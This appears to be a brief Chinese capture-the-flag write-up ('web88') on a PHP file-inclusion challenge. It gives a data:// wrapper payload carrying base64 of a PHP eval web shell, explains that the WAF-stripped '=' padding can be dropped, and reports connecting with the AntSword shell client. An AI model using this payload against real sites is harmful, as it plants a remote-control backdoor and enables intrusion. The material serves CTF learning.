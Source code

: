# web88
![](vx_images/476492616535350.png)
关键在于base64的编码会出现=和+导致被waf去掉结尾=号也能成功
file=data://text/plain;base64,PD9waHAgZXZhbCgkX1BPU1RbImNtZCJdKTs
![](vx_images/591462752388520.png)
![](vx_images/324448432976472.png)
成功写入,蚁剑连接
![](vx_images/363229812405030.png)